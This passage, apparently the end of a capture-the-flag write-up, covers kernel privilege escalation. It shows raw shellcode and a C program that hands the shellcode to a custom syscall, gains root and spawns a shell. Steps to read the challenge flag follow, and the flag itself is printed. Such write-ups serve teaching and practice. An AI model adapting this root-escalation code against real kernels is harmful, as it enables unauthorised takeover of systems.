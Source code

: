 Which assembles to "\x48\x8B\x04\x24\x48\x05\x9E\x10\x01\x00\x48\x31\xFF\xFF\xD0\x48\x89\xC7\x48\x8B\x04\x24\x48\x05\xFE\x0D\x01\x00\xFF\xD0\xC3"

```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main() {

    char mald[] = "\x48\x8B\x04\x24\x48\x05\x9E\x10\x01\x00\x48\x31\xFF\xFF\xD0\x48\x89\xC7\x48\x8B\x04\x24\x48\x05\xFE\x0D\x01\x00\xFF\xD0\xC3";

    syscall(548, mald, sizeof(mald));
    
    printf("UID: %d\n", getuid());
    
    system("/bin/sh");

}
```

Now to test,  
edit the init file back to make us not root  

Include the exploit in the filesystem  
start the vm  
and run the exploit  
and we should end up as root  

and indeed, we do  

if we run this file on the remote kernel,  
we can now read /root/flag.txt  

flag: `WMG{c0p3_sy5c4ll_seethe_and_mald}`



